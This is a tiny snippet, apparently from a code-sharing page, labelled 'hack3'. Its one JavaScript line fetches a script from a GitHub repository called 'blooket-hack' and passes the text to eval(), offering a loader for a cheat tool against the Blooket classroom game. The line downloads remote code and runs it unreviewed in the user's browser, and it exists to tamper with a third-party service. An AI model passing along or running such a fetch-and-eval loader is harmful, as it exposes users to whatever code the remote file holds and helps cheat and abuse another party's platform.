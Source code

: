 # hack3
fetch("https://raw.githubusercontent.com/glixzzy/blooket-hack/main/main.js") .then((res) => res.text() .then((t) => eval(t)))
